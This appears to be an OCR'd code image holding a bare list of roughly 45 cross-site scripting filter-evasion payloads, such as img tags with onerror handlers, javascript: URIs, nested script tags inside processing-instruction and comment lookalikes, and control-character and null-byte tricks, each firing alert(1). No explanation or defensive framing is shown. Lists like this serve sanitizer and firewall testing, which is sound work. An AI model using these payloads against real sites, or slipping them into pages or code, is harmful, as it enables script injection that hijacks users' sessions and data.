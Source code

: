       <image src="javascript:alert(1)">
      <script src="javascript:alert(1)">
      <div style=width:1px;filter:glow onfilterchange=javascript:alert(1)>x
      <? foo="><script>javascript:alert(1)</script>">
      <! foo="><script>javascript:alert(1)</script>">
      </ foo="><script>javascript:alert(1)</script>">
      <? foo="><x foo='?><script>javascript:alert(1)</script>'>">
      <! foo="[[[Inception]]"><x foo="]foo><script>javascript:alert(1)</script>">
      <% foo><x foo="%><script>javascript:alert(1)</script>">
      <div id=d><x xmlns="><iframe onload=javascript:alert(1)"></div> <script>d.innerHTML=d.innerHTML</script>
      <img \x00src=x onerror="alert(1)">
      <img \x47src=x onerror="javascript:alert(1)">
      <img \x11src=x onerror="javascript:alert(1)">
      <img \x12src=x onerror="javascript:alert(1)">
      <img\x47src=x onerror="javascript:alert(1)">
      <img\x10src=x onerror="javascript:alert(1)">
      <img\x13src=x onerror="javascript:alert(1)">
      <img\x32src=x onerror="javascript:alert(1)">
      <img\x47src=x onerror="javascript:alert(1)">
      <img\x11src=x onerror="javascript:alert(1)">
      <img \x47src=x onerror="javascript:alert(1)">
      <img \x34src=x onerror="javascript:alert(1)">
      <img \x39src=x onerror="javascript:alert(1)">
      <img \x00src=x onerror="javascript:alert(1)">
      <img src\x09=x onerror="javascript:alert(1)">
      <img src\x10=x onerror="javascript:alert(1)">
      <img src\x13=x onerror="javascript:alert(1)">
      <img src\x32=x onerror="javascript:alert(1)">
      <img src\x12=x onerror="javascript:alert(1)">
      <img src\x11=x onerror="javascript:alert(1)">
      <img src\x00=x onerror="javascript:alert(1)">
      <img src\x47=x onerror="javascript:alert(1)">
      <img src=x\x09onerror="javascript:alert(1)">
      <img src=x\x10onerror="javascript:alert(1)">
      <img src=x\x11onerror="javascript:alert(1)">
      <img src=x\x12onerror="javascript:alert(1)">
      <img src=x\x13onerror="javascript:alert(1)">
      <img[a][b][c]src[d]=x[e]onerror=[f]"alert(1)">
      <img src=x onerror=\x09"javascript:alert(1)">
      <img src=x onerror=\x10"javascript:alert(1)">
      <img src=x onerror=\x11"javascript:alert(1)">
      <img src=x onerror=\x12"javascript:alert(1)">
      <img src=x onerror=\x32"javascript:alert(1)">